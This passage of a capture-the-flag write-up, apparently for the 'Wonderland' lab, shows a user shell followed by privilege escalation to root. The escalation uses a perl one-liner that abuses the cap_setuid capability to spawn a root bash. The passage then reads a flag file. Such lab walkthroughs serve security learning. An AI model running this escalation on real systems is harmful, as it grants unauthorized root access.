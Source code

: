```
0 updates are security updates.

Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings



The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

hatter@wonderland:~$ 
```
Lets look at our ids.

```
hatter@wonderland:~$ id
uid=1003(hatter) gid=1003(hatter) groups=1003(hatter)
```

Much better. Now, lets try again to exploit `perl` with `cap_setuid+ep`.

```
hatter@wonderland:~$ perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/bash";'
root@wonderland:~#
```

Success!

## Root flag

With root, lets navigate to the root home directory and see what's contained within. 

```
root@wonderland:~# cd /root
root@wonderland:/root# ll
total 28
drwx--x--x  4 root root 4096 May 25  2020 ./
drwxr-xr-x 23 root root 4096 May 25  2020 ../
lrwxrwxrwx  1 root root    9 May 25  2020 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Apr  9  2018 .bashrc
drwxr-xr-x  3 root root 4096 May 25  2020 .local/
-rw-r--r--  1 root root  148 Aug 17  2015 .profile
drwx------  2 root root 4096 May 25  2020 .ssh/
-rw-r--r--  1 root root   32 May 25  2020 user.txt
```

Ok. So we've found the user flag. Lets grab its contents.

```
root@wonderland:/root# cat user.txt 
thm{"Curiouser and curiouser!"}
```
Recalling that the root flag was actually located in alice's home directory. Lets navigate there and use `root` to grab its content
